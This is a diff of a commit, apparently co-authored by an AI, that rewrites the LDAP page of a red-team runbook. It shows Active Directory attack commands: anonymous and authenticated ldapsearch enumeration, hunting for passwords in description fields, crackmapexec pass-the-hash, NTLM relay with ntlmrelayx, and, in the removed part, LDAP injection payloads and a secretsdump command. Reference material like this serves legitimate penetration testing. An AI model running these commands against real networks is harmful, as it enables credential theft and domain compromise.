

Before and after one commit to aelder202/red-team-runbook, an MkDocs documentation site: the page built from docs/information-gathering/service-analysis/ldap.md, in a window 1280 px wide and 1400 px high, scrolled down 568 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; after the commit the page ends 1773 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Review LDAP page: strip textbook sections, fix placeholders, rewrite to practitioner style
Co-Authored-By: Claude Sonnet 4.6 <noreply@anthropic.com>

````diff
--- a/docs/information-gathering/service-analysis/ldap.md
+++ b/docs/information-gathering/service-analysis/ldap.md
@@ -1,244 +1,69 @@
-# Lightweight Directory Access Protocol (LDAP) – Ports 389/636
+# LDAP (389, 636)
 
 !!! tip "Start here"
-    `ldapsearch -x -H ldap://<target> -b "DC=domain,DC=local"` with anonymous bind — if it returns data, you have unauthenticated enumeration. Common on misconfigured internal AD environments.
-
-!!! warning "Watch out"
-    LDAP port 389 vs LDAPS 636 — if 389 is filtered, try 636. Some environments only expose the encrypted port externally.
-
-## Port Scanning and Enumeration
-
-### Basic Nmap Scan
-
-```bash
-nmap -p 389,636 $IP --script ldap-rootdse,ldap-search
-```
-### Comprehensive Nmap Scan
-```bash
- nmap -n -sV --script "ldap* and not brute" $IP
-```
-### NSE Scripts to Use
-
-- `ldap-rootdse`: Queries the Root DSE (directory service entry).
-
-- `ldap-search`: Performs an anonymous search.
-
-- `ldap-novell-getpass`: Novell-specific password grabbing.
-
-- `ldap-brute`: Brute-forces LDAP login credentials.
-
+    Try anonymous bind first: `ldapsearch -x -H ldap://10.10.10.10 -b "dc=example,dc=com"`. If it returns data you have unauthenticated enumeration of the entire directory — usernames, computers, group memberships, sometimes passwords in description fields.
 
 ---
 
-## LDAP Basics
+## Enumeration
 
-### Bind Types
-
-- **Anonymous Bind**: No credentials used. Sometimes permitted for read-only access.
-
-- **Simple Bind**: Username and password (often DN format).
-
-- **SASL Bind**: Supports Kerberos and NTLM (common in AD environments).
-
-
-### DN (Distinguished Name) Format
-
-```text
-cn=John Doe,ou=Users,dc=corp,dc=local
+```bash
+nmap -p 389,636 --script ldap-rootdse,ldap-search 10.10.10.10
+nmap -n -sV --script "ldap* and not brute" 10.10.10.10
 ```
 
 ---
 
-## Anonymous and Authenticated Enumeration
-
-### Enum Users and Info (Using ldapsearch)
-
-Anonymous bind:
+## Anonymous Bind
 
 ```bash
-ldapsearch -x -H ldap://$IP -b "dc=corp,dc=local"
-```
-
-Authenticated bind:
-
-```bash
-ldapsearch -x -H ldap://$IP -D 'user@domain.com' -w 'password' -b "dc=corp,dc=local"
-```
-
-Dump user objects only:
-
-```bash
-ldapsearch -x -H ldap://$IP -b "dc=corp,dc=local" "(objectClass=user)" sAMAccountName
-```
-
-List domain computers:
-
-```bash
-ldapsearch -x -H ldap://$IP -b "dc=corp,dc=local" "(objectClass=computer)" cn
-```
-
-Extract DNS hostnames:
-
-```bash
-ldapsearch -x -H ldap://$IP -b "dc=corp,dc=local" "(dnshostname=*)" dnshostname
+ldapsearch -x -H ldap://10.10.10.10 -b "dc=example,dc=com"
 ```
 
 ---
 
-## LDAP Injection
-
-### Vulnerable Pattern
-
-When user-controlled input is used to construct LDAP queries:
-
-```python
-search_filter = "(uid=" + user_input + ")"
-```
-
-### Exploitable Payloads
-
-Attempt to bypass filters:
-
-- `*` – wildcard search
-
-- `*)(uid=*)` – injects second condition
-
-- `*)(objectClass=*)` – broad search
-
-- `*)(!(uid=*))` – logic negation
-
-
-Example of injection to bypass auth:
-
-```text
-username=*)(uid=*)
-```
-
-Can lead to:
-
-- Authentication bypass
-
-- Unauthorized data exposure
-
-- DoS via complex filter injection
-
-
----
-
-## Credential Hunting in LDAP
-
-Look for these attributes:
-
-- `userPassword`
-
-- `unicodePwd`
-
-- `sAMAccountName`
-
-- `lastLogonTimestamp`
-
-- `description` (sometimes used to store passwords)
-
-- `pwdLastSet` (used for password spraying windows)
-
-
-Example to search password attributes:
+## Authenticated Enumeration
 
 ```bash
-ldapsearch -x -H ldap://$IP -b "dc=corp,dc=local" "(objectClass=person)" userPassword
-```
+# All users
+ldapsearch -x -H ldap://10.10.10.10 -D 'user@example.com' -w '<pass>' \
+  -b "dc=example,dc=com" "(objectClass=user)" sAMAccountName
 
-Search for plaintext in `description` fields:
+# All computers
+ldapsearch -x -H ldap://10.10.10.10 -D 'user@example.com' -w '<pass>' \
+  -b "dc=example,dc=com" "(objectClass=computer)" cn
 
-```bash
-ldapsearch -x -H ldap://$IP -b "dc=corp,dc=local" "(description=*)" description
+# Admin accounts (adminCount=1)
+ldapsearch -x -H ldap://10.10.10.10 -D 'user@example.com' -w '<pass>' \
+  -b "dc=example,dc=com" "(&(objectClass=user)(adminCount=1))" sAMAccountName
+
+# Domain Admins group membership
+ldapsearch -x -H ldap://10.10.10.10 -D 'user@example.com' -w '<pass>' \
+  -b "dc=example,dc=com" "(memberOf=CN=Domain Admins,CN=Users,DC=example,DC=com)" sAMAccountName
+
+# Passwords stored in description fields
+ldapsearch -x -H ldap://10.10.10.10 -D 'user@example.com' -w '<pass>' \
+  -b "dc=example,dc=com" "(description=*)" sAMAccountName description
 ```
 
 ---
 
-## Pivoting and Lateral Movement
-
-Once LDAP access is obtained:
-
-- Extract valid usernames for password spraying or Kerberos pre-auth attacks (AS-REP roasting).
-
-- Combine with SMB enumeration (`enum4linux`, `crackmapexec`) to identify systems where users are local admins.
-
-- Identify admin groups:
-
-    ```bash
-    ldapsearch -x -H ldap://$IP -b "dc=corp,dc=local" "(memberOf=*)" memberOf
-    ```
-
-
----
-
-## LDAP Query Examples
-
-### Find All Users
+## CrackMapExec
 
 ```bash
-ldapsearch -x -H ldap://$IP -b "dc=corp,dc=local" "(objectClass=user)" sAMAccountName
-```
-
-### Find Members of a Group
-
-```bash
-ldapsearch -x -H ldap://$IP -b "dc=corp,dc=local" "(memberOf=CN=Domain Admins,CN=Users,DC=corp,DC=local)" sAMAccountName
-```
-
-### Search Users With Admin Rights
-
-```bash
-ldapsearch -x -H ldap://$IP -b "dc=corp,dc=local" "(&(objectCategory=person)(objectClass=user)(adminCount=1))" sAMAccountName
+crackmapexec ldap 10.10.10.10 -u <user> -p <pass> --users
+crackmapexec ldap 10.10.10.10 -u <user> -H <hash>
 ```
 
 ---
 
-## Tools for LDAP Attacks
+## NTLM Relay to LDAP
 
-### ldapsearch (Linux)
+If you capture NTLMv2 hashes via LLMNR/NBT-NS poisoning, relay them to LDAP:
 
 ```bash
-apt install ldap-utils
+ntlmrelayx.py -t ldap://10.10.10.10 --dump
 ```
 
-### CrackMapExec
-
-```bash
-crackmapexec ldap $IP -u usernames.txt -p passwords.txt
-```
-
-### Enum4Linux (For SMB + LDAP Enumeration)
-
-```bash
-enum4linux-ng $IP
-```
-
-### ADExplorer (GUI, by Sysinternals – for offline analysis of LDAP dumps)
-
----
-
-## Additional Tactics
-
-### Dump LDAP via Ntds.dit and SYSTEM Hive (Post-Exploitation)
-
-If Domain Controller is compromised:
-
-```bash
-secretsdump.py -just-dc -system SYSTEM -ntds ntds.dit LOCAL
-```
-
-### Pass-the-Hash with LDAP
-
-```bash
-crackmapexec ldap $IP -u <user> -H <NTLM hash>
-```
-
-### Gaining Access via LLMNR/NTLM Relay to LDAP
-
-```bash
-ntlmrelayx.py -t ldap://$IP --dump
-```
-
-This will dump LDAP contents if the victim account has privileges.
+!!! tip "Real-world"
+    Anonymous LDAP is still common on internal AD environments — it's rarely intentional, usually a misconfiguration from legacy requirements. Even with credentials, `description` fields are a reliable place to find passwords that sysadmins embedded years ago. Pull the full dump and grep it offline rather than running targeted queries.
````
